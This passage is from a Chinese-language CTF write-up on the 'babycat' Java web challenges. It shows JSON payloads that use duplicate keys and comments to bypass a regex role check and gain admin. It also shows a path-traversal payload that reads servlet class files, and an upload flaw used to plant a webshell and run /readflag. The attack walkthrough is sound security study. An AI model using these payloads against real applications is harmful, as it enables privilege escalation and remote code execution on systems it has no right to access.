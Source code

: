 此时有两种方法去绕过，因为正则表达式包括了 `\"role\":\"(.*?)\"` 进行完整匹配，而 JSON 中的内联注释不会影响其解析，因此可以使用注释来破坏正则匹配。为了让其不直接走到 `setRole`，我们仍然需要让正则匹配有结果。JSON 中键值一样的数据解析时后面的会覆盖前面的，因此可以构造如下载荷。

```json
{"username":"LemonPrefect","password":"pass","role":"superUserLemonPrefect","role"/**/:"admin"}
```

可以注意到这里取得的正则匹配结果是最后一个，在可以使用注释的情况下，可以构造如下载荷。

```json
{"username":"LemonPrefect","password":"pass","role":"admin"/*,"role":"guest"*/}
```

发送上述载荷即可得到管理员账户，登录之后可以访问上传业务。

![](https://api.lemonprefect.cn/image/hdslb/archive/c67b07d5-8cae-46d2-9e85-51c92780b759/1626757517345095/3a190e8ecff9137a3abb6f53ad4553fa65bf0579.png)

#### 文件上传

此时再来读上传的源码，构造出载荷 `file=../../WEB-INF/classes/com/web/servlet/uploadServlet.class` 来读取。

```java
if (checkExt(ext) || checkContent(item.getInputStream())) {
    req.setAttribute("error", "upload failed");
    req.getRequestDispatcher("../WEB-INF/upload.jsp").forward(req, resp);
}
item.write(new File(uploadPath + File.separator + name + ext));
req.setAttribute("error", "upload success!");
```

可以发现检测拓展名白名单后没有退出，响应后仍然会保存文件，因此可以尝试向 `../../static/` 下写入一句话。使用冰蝎连接即可执行 `/readflag` 从而获取到 flag。

![](https://api.lemonprefect.cn/image/hdslb/archive/c67b07d5-8cae-46d2-9e85-51c92780b759/1626759548380742/f59749af93c79c1514d0d17c347964cbf6f1a70d.png)

```flag
flag{beed2f77-3c76-492a-86b7-a00741f7cddc}
```

### babycat-revenge

> 1.你知道注释符吗 2.PrintWriter？

原本的上传逻辑已经修复如下。

```java
if (checkExt(ext) || checkContent(item.getInputStream())) {
    req.setAttribute("error", "upload failed");
    req.getRequestDispatcher("../WEB-INF/upload.jsp").forward(req, resp);
} else {
    item.write(new File(uploadPath + File.separator + name + ext));
    req.setAttribute("error", "upload success!");
}
```

此时再看上传文件白名单，允许上传的文件中有 xml 文件。

```java
private static boolean checkExt(String ext) {
    if (!Arrays.asList("jpg", "png", "gif", "bak", "properties", "xml", "html", "xhtml", "zip", "gz", "tar", "txt").contains(ext.toLowerCase())) {
        return true;
    }
    return false;
}
```
